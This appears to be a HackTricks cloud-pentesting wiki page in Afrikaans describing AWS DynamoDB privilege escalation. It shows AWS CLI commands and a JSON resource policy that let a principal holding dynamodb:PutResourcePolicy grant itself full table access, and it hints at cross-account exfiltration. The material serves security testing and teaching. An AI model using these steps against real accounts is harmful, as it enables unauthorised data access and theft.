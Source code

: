# AWS - DynamoDB Privesc

{{#include ../../../banners/hacktricks-training.md}}

## dynamodb

Vir meer inligting oor dynamodb, kyk:

{{#ref}}
../aws-services/aws-dynamodb-enum.md
{{#endref}}

### `dynamodb:PutResourcePolicy`, en opsioneel `dynamodb:GetResourcePolicy`

Sedert Maart 2024 bied AWS *hulpbron-gebaseerde beleide* vir DynamoDB aan ([AWS News](https://aws.amazon.com/about-aws/whats-new/2024/03/amazon-dynamodb-resource-based-policies/)).

As jy dus die `dynamodb:PutResourcePolicy` vir 'n tabel het, kan jy jouself of enige ander prinsiep volle toegang tot die tabel gee.

Die toekenning van die `dynamodb:PutResourcePolicy` aan 'n lukrake prinsiep gebeur dikwels per ongeluk, as die admins dink dat die toekenning van `dynamodb:Put*` slegs die prinsiep sou toelaat om items in die databasis te plaas - of as hulle daardie toestemmingset voor Maart 2024 toegeken het...

Ideaal gesproke het jy ook `dynamodb:GetResourcePolicy`, sodat jy nie ander potensieel belangrike toestemmings oorskryf nie, maar slegs die bygevoegde toestemmings wat jy nodig het:
```bash
# get the current resource based policy (if it exists) and save it to a file
aws dynamodb get-resource-policy \
--resource-arn <table_arn> \
--query 'Policy' \
--output text > policy.json
```
As jy nie die huidige beleid kan verkry nie, gebruik net hierdie een wat volle toegang tot die tabel aan jou prinsiep verleen:
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Sid": "FullAccessToDynamoDBTable",
"Effect": "Allow",
"Principal": {
"AWS": "arn:aws:iam::<ACCOUNT_ID>:<USER_OR_ROLE>/<USERNAME_OR_ROLENAME>"
},
"Action": [
"dynamodb:*"
],
"Resource": [
"arn:aws:dynamodb:<REGION>:<AWS_ACCOUNT_ID>:table/<TABLENAME>"
]
}
]
}
```
As jy dit wil aanpas, hier is 'n lys van alle moontlike DynamoDB aksies: [AWS Documentation](https://docs.aws.amazon.com/amazondynamodb/latest/APIReference/API_Operations.html). En hier is 'n lys van alle aksies wat toegelaat kan word via 'n hulpbron-gebaseerde beleid *EN watter van hierdie kan gebruik word oor rekeninge (denk data uitvloeiing!)*: [AWS Documentation](https://docs.aws.amazon.com/amazondynamodb/latest/developerguide/rbac-iam-actions.html)

Nou, met die beleidsdokument `policy.json` gereed, plaas die hulpbronbeleid:
```bash
# put the new policy using the prepared policy file
# dynamodb does weirdly not allow a direct file upload
aws dynamodb put-resource-policy \
--resource-arn <table_arn> \
--policy "$(cat policy.json)"
```
Nou, jy behoort die toestemmings te hê wat jy nodig gehad het.

### Post Exploitation

So ver ek weet is daar **geen ander direkte manier om bevoegdhede in AWS te verhoog net deur 'n paar AWS `dynamodb` toestemmings te hê**. Jy kan **sensitiewe** inligting uit die tabelle lees (wat AWS geloofsbriewe kan bevat) en **inligting op die tabelle skryf** (wat ander kwesbaarhede kan aktiveer, soos lambda kode-inspuitings...) maar al hierdie opsies word reeds oorweeg in die **DynamoDB Post Exploitation bladsy**:

{{#ref}}
../aws-post-exploitation/aws-dynamodb-post-exploitation.md
{{#endref}}

### TODO: Lees data deur data Streams te misbruik

{{#include ../../../banners/hacktricks-training.md}}
